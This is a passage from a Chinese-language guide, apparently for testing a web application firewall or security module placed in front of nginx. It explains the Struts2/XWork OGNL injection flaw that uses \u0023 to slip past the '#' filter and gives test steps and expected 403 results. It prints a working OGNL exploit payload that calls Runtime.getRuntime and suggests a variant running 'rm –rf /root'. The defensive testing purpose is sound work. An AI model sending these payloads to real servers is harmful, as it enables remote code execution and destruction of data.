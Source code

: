 - 漏洞描述
   struts2是在webwrok的技术基础上开发的，采用拦截器的机制来处理用户请求的全新MVC框架。而webwork是建立在成为xwork的command模式框架之上的强大的基于web的MVC框架。所以总而言之，无论是struts2还是webwork底层都是xwork。Xwork提供了很多核心功能：前端拦截机（interceptor），运行时表单属性验证，类型转换，强大的表达式语言（OGNL – the Object Graph NavigationLanguage），IoC（Inversion of Control反转控制）容器等。
   为了防范篡改服务器端对象，XWork的ParametersInterceptor不允许参数名中出现“#”字符，但如果使用了Java的 unicode字符串表示\u0023，攻击者就可以绕过保护，修改保护Java方式执行的值.

- 测试建议
  - 使用\u0023构造注入(漏洞如何形成示例)

    ```shell
    ?('\u0023_memberAccess['allowStaticMethodAccess']')(meh)=true&(aaa)(('\u0023context['xwork.MethodAccessor.denyMethodExecution']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1
    ```

  - 转义之后是这样

    ```shell
    ?('#_memberAccess['allowStaticMethodAccess']')(meh)=true&(aaa)(('#context['xwork.MethodAccessor.denyMethodExecution']=#foo')(#foo=new%20java.lang.Boolean("false")))&(asdf)(('#rt.exit(1)')(#rt=@java.lang.Runtime@getRuntime()))=1 
    ```

    - OGNL处理时最终的结果就是

      `java.lang.Runtime.getRuntime().exit(1); `

      你也可以构造为

      `java.lang.Runtime.getRuntime().exec("rm –rf /root") `

      使用nginx80端口进行测试

- 测试示例

  步骤
   网页请求:

  `http://172.16.111.211/?id=(/u0023rt/u003d@java.lang.Runtime@getRuntime()))=1`

- 预期结果
  - 防护失败,返回nginx页面
  - 防护成功,返回403错误页面
  - 日志信息 (tail -f /usr/local/nginx/logs/error.log)




## 20、http协议违规

- 漏洞描述
   在应用层攻击中，某些协议冲突很常见。验证HTTP请求可以消除大量的应用程序层攻.

- 测试建议
   安全模块强制实施HTTP RFC要求，该要求规定了客户端应如何与服务器交互构造不符合,我们构造违规的请求. 使用nginx:80端口代理python.http.server服务测试

- 测试示例
  - 用python3中的http模块启动http服务
